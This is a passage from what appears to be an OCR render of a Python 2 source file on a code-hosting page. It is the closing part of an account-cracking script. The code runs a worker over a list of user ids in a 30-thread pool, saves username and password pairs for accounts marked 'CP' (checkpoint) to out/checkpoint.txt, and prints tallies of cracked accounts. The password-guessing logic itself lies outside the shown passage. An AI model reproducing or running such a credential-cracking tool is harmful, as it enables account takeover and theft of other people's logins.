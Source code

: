                                                                                                                                          cek = open("out/checkpoint.txt", "a") 
                                                                                                                                         cek.write(user+"|"+pass7+"\n") 
                                                                                                                                         cek.close() 
                                                                                                                                         cekpoint.append(user+pass7) 
  
  
                 except: 
                         pass 
  
         p = ThreadPool(30) 
         p.map(main, id) 
         print 42*"\033[1;96m=" 
         print '\033[1;96m[\033[1;97m \033[1;96m] \033[1;92mProcess Has Been Completed \033[1;97m....' 
         print"\033[1;96m[+] \033[1;92mTotal OK\x1b[1;93mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint)) 
         print("\033[1;96m[+] \033[1;92mCP File Has Been Saved \033[1;91m: \033[1;97mout/checkpoint.txt") 
         raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]") 
         menu() 
 if __name__ == '__main__': 
         login()
untitled.txt
Displaying untitled.txt.

